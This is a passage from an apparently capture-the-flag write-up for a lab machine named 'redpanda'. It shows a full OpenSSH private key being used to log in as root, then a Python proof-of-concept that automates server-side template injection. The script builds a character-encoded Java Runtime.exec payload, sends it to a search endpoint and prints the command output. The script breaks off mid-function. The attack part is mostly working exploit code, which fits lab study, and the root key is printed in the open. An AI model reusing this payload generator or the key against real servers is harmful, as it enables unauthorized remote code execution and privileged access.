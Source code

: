 ###### Elevate privileges

	vi id_rsa

```shell-session
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
```

	chmod 600 id_rsa
	ssh root@10.10.11.170 -i id_rsa

```shell-session
root@10.10.11.170
root@redpanda:~#
```

	cat /root/root.txt

```shell-session
<...FLAG...>
```

## Proof-of-Concept

### Automate SSTI exploitation

Injects malicious input into template to execute commands on the server-side.

	exploit.py

```python
#!/usr/bin/python3
import requests
from cmd import Cmd
from bs4 import BeautifulSoup

class RCE(Cmd):
    prompt = "\033[1;31m$\033[1;37m "
    def decimal(self, args):
        command = args
        commands = []

        for i in command:
            commands.append(str(ord(i)))
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % commands[0]

        for i in commands[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"
        data = { "name": payload }
        request = requests.post("http://10.10.11.170:8080/search", data=data)
        parser = BeautifulSoup(request.content, 'html.parser')
        grepcm = parser.find_all("h2")[0].get_text()
        result = grepcm.replace('You searched for:','').strip()
        print(result)

    def default(self, args):
        try:
            self.decimal(args)
        except:
```